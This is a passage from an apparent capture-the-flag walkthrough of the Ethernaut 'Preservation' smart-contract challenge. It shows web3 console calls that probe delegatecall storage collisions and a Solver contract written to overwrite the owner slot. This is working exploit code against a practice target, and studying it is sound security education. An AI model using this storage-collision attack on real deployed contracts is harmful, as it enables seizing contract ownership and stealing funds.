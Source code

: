 Now, what happens if we call `setFirstTime`?

```javascript
await contract.setFirstTime(1)


await web3.eth.getStorageAt(contract.address, 0)
'0x0000000000000000000000000000000000000000000000000000000000000001'

await contract.timeZone1Library()
'0x0000000000000000000000000000000000000001'

await contract.setFirstTime(9)


await contract.timeZone1Library()
'0x0000000000000000000000000000000000000001'
```

What does this mean? Well, when we first called `setFirstTime(1)` the contract delegated the execution into the address stored in `timeZone1Library`, which was an instance of the `LibraryContract`. This contract only have one variable, a `uint`. That's why it modified the first (and only the first) variable of the `Preservation` contract. And why haven't it set to `9` the second time we called it? Well, now `timeZone1Library` has `0x0000000000000000000000000000000000000001` stored in it. Which is NOT the address of the `LibraryContract`... Then nothing happened.

Let's call `setSecondTime` now and see what happens, should it modify `timeZone2Library` variable?

```javascript
await contract.setSecondTime(9)


await web3.eth.getStorageAt(contract.address, 1) // timeZone2Library variable
'0x0000000000000000000000007f08c632697adf1b5052d2eb82d3a272b0b92312'

await web3.eth.getStorageAt(contract.address, 0) // timeZone1Library variable
'0x0000000000000000000000000000000000000000000000000000000000000009'
```

It haven't modified the `timeZone2Library` but `timeZone1Library` instead... And this makes total sense, as the contract running on the address stored in `timeZone2Library` is the `LibraryContract` which modifies only one variable, and is the first one in the storage.

So, how could we manage to modify the owner variable?

Well, would it be possible for us to deploy a contract that has the same storage as the `Preservartion` contract? But that has the same signature of the `LibraryConctract` (for delegatecall to work)? And that it modifies the owner variable instead of `storedTime`?

Let's try it!

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Solver {
  // copied storage from Preservation
  address public timeZone1Library;
  address public timeZone2Library;
  uint public owner; // modified type of owner so we can save the uint that we send (that's going to be the address anyway)
  uint storedTime; 

  function setTime(uint _time) public {
    // same signature as the LibraryContract
    owner = _time;
  }
}
```